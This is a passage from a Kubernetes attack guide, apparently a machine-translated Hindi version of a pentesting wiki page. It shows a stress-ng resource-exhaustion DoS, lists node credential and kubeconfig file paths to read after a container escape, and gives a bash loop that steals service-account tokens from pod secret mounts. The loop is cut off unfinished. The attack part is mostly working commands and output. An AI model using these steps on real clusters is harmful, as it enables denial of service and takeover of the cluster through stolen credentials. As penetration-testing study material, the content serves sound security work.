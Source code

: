 There is no specification of resources in the Kubernetes manifests and **not applied limit** ranges for the containers. As an attacker, we can **consume all the resources where the pod/deployment running** and starve other resources and cause a DoS for the environment.

This can be done with a tool such as [**stress-ng**](https://zoomadmin.com/HowToInstall/UbuntuPackage/stress-ng):
```
stress-ng --vm 2 --vm-bytes 2G --timeout 30s
```
आप `stress-ng` चलाते समय और बाद में अंतर देख सकते हैं
```bash
kubectl --namespace big-monolith top pod hunger-check-deployment-xxxxxxxxxx-xxxxx
```
## Node Post-Exploitation

यदि आप **कंटेनर से बाहर निकलने** में सफल हो गए हैं, तो आपको नोड में कुछ दिलचस्प चीजें मिलेंगी:

* **कंटेनर रनटाइम** प्रक्रिया (Docker)
* नोड में और अधिक **पॉड्स/कंटेनर** चल रहे हैं जिन्हें आप इस तरह से दुरुपयोग कर सकते हैं (अधिक टोकन)
* पूरा **फाइलसिस्टम** और सामान्य रूप से **OS**
* **Kube-Proxy** सेवा सुन रही है
* **Kubelet** सेवा सुन रही है। कॉन्फ़िग फ़ाइलें जांचें:
* निर्देशिका: `/var/lib/kubelet/`
* `/var/lib/kubelet/kubeconfig`
* `/var/lib/kubelet/kubelet.conf`
* `/var/lib/kubelet/config.yaml`
* `/var/lib/kubelet/kubeadm-flags.env`
* `/etc/kubernetes/kubelet-kubeconfig`
* अन्य **कubernetes सामान्य फ़ाइलें**:
* `$HOME/.kube/config` - **उपयोगकर्ता कॉन्फ़िग**
* `/etc/kubernetes/kubelet.conf`- **नियमित कॉन्फ़िग**
* `/etc/kubernetes/bootstrap-kubelet.conf` - **बूटस्ट्रैप कॉन्फ़िग**
* `/etc/kubernetes/manifests/etcd.yaml` - **etcd कॉन्फ़िगरेशन**
* `/etc/kubernetes/pki` - **Kubernetes कुंजी**

### Find node kubeconfig

यदि आप पहले टिप्पणी किए गए पथों में से किसी एक में kubeconfig फ़ाइल नहीं ढूंढ पा रहे हैं, तो **kubelet प्रक्रिया के `--kubeconfig` तर्क की जांच करें**:
```
ps -ef | grep kubelet
root        1406       1  9 11:55 ?        00:34:57 kubelet --cloud-provider=aws --cni-bin-dir=/opt/cni/bin --cni-conf-dir=/etc/cni/net.d --config=/etc/kubernetes/kubelet-conf.json --exit-on-lock-contention --kubeconfig=/etc/kubernetes/kubelet-kubeconfig --lock-file=/var/run/lock/kubelet.lock --network-plugin=cni --container-runtime docker --node-labels=node.kubernetes.io/role=k8sworker --volume-plugin-dir=/var/lib/kubelet/volumeplugin --node-ip 10.1.1.1 --hostname-override ip-1-1-1-1.eu-west-2.compute.internal
```
### रहस्य चुराना
```bash
# Check Kubelet privileges
kubectl --kubeconfig /var/lib/kubelet/kubeconfig auth can-i create pod -n kube-system

# Steal the tokens from the pods running in the node
# The most interesting one is probably the one of kube-system
ALREADY="IinItialVaaluE"
for i in $(mount | sed -n '/secret/ s/^tmpfs on \(.*default.*\) type tmpfs.*$/\1\/namespace/p'); do
TOKEN=$(cat $(echo $i | sed 's/.namespace$/\/token/'))
if ! [ $(echo $TOKEN | grep -E $ALREADY) ]; then
ALREADY="$ALREADY|$TOKEN"
echo "Directory: $i"
echo "Namespace: $(cat $i)"
echo ""
echo $TOKEN
echo "================================================================================"
```